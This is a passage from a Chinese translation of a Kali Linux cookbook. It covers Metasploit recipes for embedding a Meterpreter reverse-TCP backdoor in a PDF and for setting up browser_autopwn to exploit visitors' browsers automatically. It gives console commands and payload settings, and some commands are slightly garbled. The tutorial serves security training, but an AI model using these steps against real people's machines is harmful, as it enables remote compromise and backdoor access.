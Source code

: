     > 要注意，这个模块的所有选项都是可选的，除了`INFILENAME `。
    
8.  执行漏洞利用：

    ```
    Exploit
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/6-9-3.jpg)
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 创建了包含 Meterpreter 后门的 PDF 文件。我们以启动控制台并搜索所有可用的 PDF 漏洞来开始。在选择 PDF 内嵌模块之后，我们设置选项并执行漏洞利用，这让我们在正常的 PDF 中埋下后门程序。Metasploit 会生成带有 Windows 反向 TCP 载荷的 PDF。当你的目标打开 PDF 文件时，Meterpreter 会开启答复并激活会话。

## 6.10 实现 browser_autopwn

浏览器 Autopwn 是 Metasploit 提供的辅助模块，在受害者访问网页时，让你能够自动化对它们的攻击。浏览器 Autopwn 在攻击之前指定客户端的指纹识别，也就是说他不会对 IE 7 尝试利用 Firefox 的漏洞。基于它的浏览器判断，它决定最适于实施哪个漏洞利用。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE：

    ```
    msfconsole 
    ```
    
3.  搜索可用的 `autopwn` 模块。

    ```
    msfconsole autopwn
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/6-10-1.jpg)
    
4.  使用` browser_autopwn `模块：

    ```
    Use auxiliary/server/browser_autopwn
    ```
    
5.  设置我们的载荷，这里我们使用 Windows 反向 TCP：

    ```
    set payload windows/meterpreter/reverse_tcp 
    ```
    